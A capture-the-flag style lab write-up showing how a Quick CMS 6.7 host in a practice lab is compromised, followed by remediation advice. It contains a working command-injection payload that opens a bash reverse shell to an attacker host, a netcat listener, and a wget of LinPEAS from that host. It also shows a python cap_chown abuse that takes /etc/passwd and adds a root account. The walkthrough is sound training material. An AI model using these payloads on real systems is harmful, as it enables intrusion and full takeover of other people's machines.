#  - Virtual Hacking Lab

| Info          | Details                                                  |
| ------------- | -------------------------------------------------------- |
| Platform      | Virtual Hacking Lab                                      |
| Difficulty    | Advance                                                  |
| Target IP     | 10.11.1.20                                               |
| OS            | Linux                                                    |
| Vulnerability | Quick CMS 6.7                                            |
| Tools Used    | Nmap, Gobuster, Dirsearch, Searchsploit, Netcat, LinPEAS |

## Attack Path

1. Nmap scan discovered **FTP, SSH, and HTTP** services.
2. Web enumeration revealed **Quick CMS 6.7**.
3. Configuration file exposed **administrator credentials**.
4. Admin panel login allowed access to CMS management features.
5. Quick CMS vulnerability enabled **command injection via language settings**.
6. Reverse shell obtained as **www-data**.
7. LinPEAS identified **Python capability misconfiguration**.
8. Ownership of `/etc/passwd` changed.
9. Root user added to `/etc/passwd`.
10. Root privileges obtained and flag captured.

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir quick
cd quick
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```
## Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.20'

## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```



Reminder:
1. Check all the version
2. Check all the open ports

Results: Service ftp, ssh, and http open
## FTP enumeration

Anonymous login was tested.

``` bash
ftp $ip
```

Credentials used:

```bash
username: anonymous  
password: anonymous
```



Results: anonymous login not allowed.
## Web Enumeration

Web App page: Accessing the HTTP service revealed a **Quick CMS** website.



By viewing the page source, the application version was identified. 



Results: Discovered the service version `Quick CMS 6.7`

Directory brute forcing with Gobuster and dirsearch.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42

# dirsearch
dirsearch -u $ip
```

Gobuster:



**dirsearch:**



Results: shows some interesting directories

```bash
/admin.php
/core
/database
/plugins/tinymce
```

/admin.php: try weak password



/database/config.php.txt: found a password and username.



Use the username and password, successfully login to admin.php



## Vulnerability Search

A search for known vulnerabilities in **Quick CMS 6.7** was conducted.

```bash
searchsploit quick cms 6.7
```



An exploit was discovered: `49494`

```bash
searchsploit -m 49494
```

## Exploitation

The exploit script was executed.

```bash
python3 49494.py http://10.11.1.20/admin.php admin@localhost.local admin123 172.16.1.1 4444
```

However, the automated exploit failed to generate a web shell.
### Manual Exploitation

The exploit script was analyzed to understand the vulnerability.

```bash
mousepad 49494.py

#modify the original code, add a line of code and check the payload output
print(payload)
```



The exploit revealed that command injection occurs in the **language configuration panel**.

Navigation path:

`Tools > Languages > en > Back end` 

A reverse shell payload was inserted into the **Back_end_only** field.

```bash
Back end\"; system('/bin/bash -c \'bash -i >& /dev/tcp/172.16.1.1/4444 0>&1\''); //

# A listener was started on the attacker machine.
sudo nc -lnvp 4444
```

After saving the configuration multiple times (to bypass input sanitization), the payload executed successfully and returned a reverse shell. 



# Privilege Escalations

A shell was obtained as the web server user.

```bash
# Upgrade to a stable shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# identify the users priv
whoami
id
```



Results: Login as user www-data

## Privilege Escalation Enumeration

```bash
# Run linpeash
wget http://172.16.1.1/linpeas.sh && chmod +x linpeas.sh
```



Results: Discovered an interesting vulnerabilities with linpeas.sh

Python3.8 = cap_chown+ep found out is Change ownership of the /etc/passwd file to your UID and GID

```bash
ls -l /etc/passwd

/usr/bin/python3.8 -c 'import os;os.chown("/etc/passwd",33,33)'

ls -l /etc/passwd
```



Now the **www-data user owns `/etc/passwd`**.

## Creating a Root User

Add a user as root

```bash
##################################################
/etc/passwd
##################################################
# create a password
openssl passwd hacker123

# write into /etc/passwd
echo "hacker1:o0S18hym4qCJ2:0:0:root:/root:/bin/bash" >> /etc/passwd

# run as su
su hacker1
hacker123

# Verify privileges.
whoami
id
cat /root/key.txt
```



# Remediation

### 1. Protect Configuration Files

Sensitive files such as:

`/database/config.php`

should never be publicly accessible.

- Store configuration files outside the web root.
- Restrict access using proper file permissions.

---

### 2. Patch Quick CMS

Upgrade Quick CMS to a secure version.

Older versions allow **command injection through language configuration fields**.

---

### 3. Input Validation

Web applications should sanitize user input to prevent:

- Command injection
- Remote command execution

---

### 4. Remove Dangerous Linux Capabilities

The binary:

`/usr/bin/python3.8`

had the capability:

`cap_chown+ep`

Remove the capability:

`sudo setcap -r /usr/bin/python3.8`

---

### 5. Harden System Permissions

Critical system files such as:

`/etc/passwd`

should never be writable by non-root users.

Regularly audit file ownership and permissions.

---

### 6. Regular Security Updates

Apply security updates regularly to:

- Operating system
- Web applications
- Installed packages

